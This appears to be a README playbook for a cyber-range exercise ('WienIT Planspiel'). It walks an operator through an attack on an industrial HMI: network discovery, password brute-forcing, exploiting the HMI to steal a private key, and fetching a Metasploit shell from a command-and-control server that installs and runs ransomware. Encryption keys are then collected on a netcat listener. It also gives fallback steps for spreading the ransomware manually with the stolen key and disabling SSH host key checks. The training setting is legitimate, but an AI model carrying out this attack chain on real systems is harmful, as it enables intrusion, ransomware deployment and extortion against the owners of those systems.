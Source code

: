 # Playbook 
For WienIT Planspiel

1. Request JUMPHOST, ATTACKER0, ATTACKER1, LANTURTLE ip from cyberrange admins (benni, lenni, hoti, ...)
2. Fill in the correct IPs here:
```
export CR_JUMPHOST_USER=ait
export CR_ATTACKER_USER=ait
export CR_JUMPHOST=10.17.2.127
export CR_ATTACKER1=240.70.26.128
export CR_ATTACKER0=240.64.78.32
export CR_LANTURTLE=240.71.161.32

alias ssh-attacker1="ssh -J \${CR_JUMPHOST_USER}@\${CR_JUMPHOST} \${CR_ATTACKER_USER}@\${CR_ATTACKER1}"
alias ssh-attacker0="ssh -J \${CR_JUMPHOST_USER}@\${CR_JUMPHOST} \${CR_ATTACKER_USER}@\${CR_ATTACKER0}"
alias ssh-lanturtle="ssh -J \${CR_JUMPHOST_USER}@\${CR_JUMPHOST} \${CR_ATTACKER_USER}@\${CR_LANTURTLE}"
```
3. Start ssh-keygen and add key
```
ssh-agent &
ssh-add ~/.ssh/cyberrange_key
```
4. remove old known_hosts
```
sed -i "/${CR_ATTACKER1}/d" ~/.ssh/known_hosts
sed -i "/${CR_ATTACKER0}/d" ~/.ssh/known_hosts
sed -i "/${CR_LANTURTLE}/d" ~/.ssh/known_hosts
```
5. connect to lan turtle ```ssh-lanturtle```
6. change to opt and run code
```
cd /opt/ot_attack
```
7. run discovery ```sudo ./01_discovery.sh``` and verify that all scans look like they were done
8. after a little while run bruteforce on hmi ```sudo ./02_bruteforce.sh ``` and verify that the password has been found
9. after a little while run the exploit phase with ```sudo ./03_exploit_hmi.sh``` ask if you are able to exploit the hmi and extract the private key
10. the last phase downloads a metasploit shell from the attacker-1 server, the shell is saved as system service and executed. this automatically spawns a metasploit session to attacker-1 which pushes a ransomware to the computer. The ransomware is immediately executed. So BE SURE that you want to blow off the ransomwhere by executing ```sudo ./04_upload_ranmosmware.sh```. if this does not work, someone fixed the firewall by blocking all outgoing ports in the meantime, or metasploit or apache2 on attacker-1 is not running. in this case you have to be creative, either by fixing attaker-1 or you have to manually copy and run the ransomware from "$CR_ATTACKER1:/opt/ot_attack/dist/ransomware" to all of the hosts you want to attack by using your LANTURTLE. you can connect to all of your victims by using the key you extracted during 03_exploit_hmi.sh. just check all the infos from 04_upload_ransomware.sh you will find out how to fix this ;)
11. attacker-0 has an open port, where it receives the ransomware encryption keys via simple a tcp-stream. verify that you've got several keys on attacker-0
```
ssh-attacker0
cat /opt/ot_attack/ransomw-keys.txt
```

# Overview
* attacker-1 is a C&C server, it hosts 
  * apache2 on port 80
    * find logs here: /var/log/apache2/
    * find utils that will be downloaded from this machine during the game here: /var/www/html/
  * metasploit on port 443
    * metasploit is running as a service and you will find the logs here: systemctl status metasploit-attacker.service
    * or here: journalctl -u metasploit-attacker.service
* attacker-0 is a C&C server, which hosts
  * ncat on port 80 to retreive the "generated" malware keys, there is a 
     * log / service file here: systemctl status auto-ncat.service
        * or here journalctl -u auto-ncat.service
     * key file here: cat /opt/ot_attack/ransomw-keys.txt 
* our lan turtle is the attacker machine and hosts 01-04 scripts under /opt/ot_attack, the config file can be sourced and used
      
# emergency snippets ssh-copy
```
rsync -r -e "ssh -J \${CR_JUMPHOST_USER}@\${CR_JUMPHOST}" ${CR_JUMPHOST_USER}@${CR_ATTACKER1}:/opt/ot_attack /tmp
rsync -r -e "ssh -J \${CR_JUMPHOST_USER}@\${CR_JUMPHOST}" /tmp/ot_attack ${CR_JUMPHOST_USER}@${CR_LANTURTLE}:/tmp/ot_attack
sudo rsync -r -e "ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key"  /tmp/ot_attack $VICTIM_SERVER_USER@$LAPTOP_IP:/tmp/ot_attack
. /opt/ot_attack/
sudo ssh -o "StrictHostKeyChecking=no" -i hmi-ssh.key $VICTIM_SERVER_USER@$LAPTOP_IP
```
